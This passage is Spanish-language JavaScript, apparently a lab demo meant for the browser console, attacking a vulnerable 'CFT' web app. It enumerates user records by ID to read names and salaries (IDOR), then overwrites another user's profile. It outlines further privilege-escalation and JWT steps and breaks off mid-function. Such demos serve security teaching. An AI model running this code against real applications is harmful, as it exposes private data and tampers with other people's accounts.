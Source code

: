### **Script de Demostración Completa**
```javascript
// DEMO COMPLETO - Ejecutar en DevTools Console
const CFTVulnerabilityDemo = {
  
  async runCompleteDemo() {
    console.log("🚨 INICIANDO DEMOSTRACIÓN COMPLETA DE VULNERABILIDADES CFT");
    console.log("═══════════════════════════════════════════════════════════════");
    
    // 1. IDOR Demo
    await this.demonstrateIDOR();
    
    // 2. Escalada Horizontal
    await this.demonstrateHorizontalEscalation();
    
    // 3. Escalada Vertical  
    await this.demonstrateVerticalEscalation();
    
    // 4. Exposición de datos
    await this.demonstrateDataExposure();
    
    // 5. Manipulación de roles
    await this.demonstrateRoleManipulation();
    
    // 6. JWT Exploitation
    await this.demonstrateJWTExploitation();
    
    console.log("═══════════════════════════════════════════════════════════════");
    console.log("🏁 DEMOSTRACIÓN COMPLETA FINALIZADA");
  },
  
  async demonstrateIDOR() {
    console.log("\n🔍 1. DEMOSTRANDO IDOR (Insecure Direct Object Reference)");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    console.log(`👤 Usuario actual: ${currentUser?.username} (ID: ${currentUser?.id})`);
    
    for (let i = 1; i <= 4; i++) {
      try {
        const user = await api.getUserById(i);
        console.log(`✅ Acceso exitoso a usuario ${i}: ${user.profile?.fullName} - Salario: $${user.profile?.salary}`);
      } catch (error) {
        console.log(`❌ Error accediendo a usuario ${i}: ${error.message}`);
      }
    }
  },
  
  async demonstrateHorizontalEscalation() {
    console.log("\n↔️ 2. DEMOSTRANDO ESCALADA HORIZONTAL");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    const targetId = currentUser?.id === 2 ? 3 : 2; // Atacar a otro usuario
    
    try {
      const originalUser = await api.getUserById(targetId);
      console.log(`🎯 Usuario objetivo: ${originalUser.profile?.fullName}`);
      
      await api.updateUser(targetId, {
        fullName: "HACKEADO POR " + currentUser?.username,
        department: "DEPARTAMENTO COMPROMETIDO"
```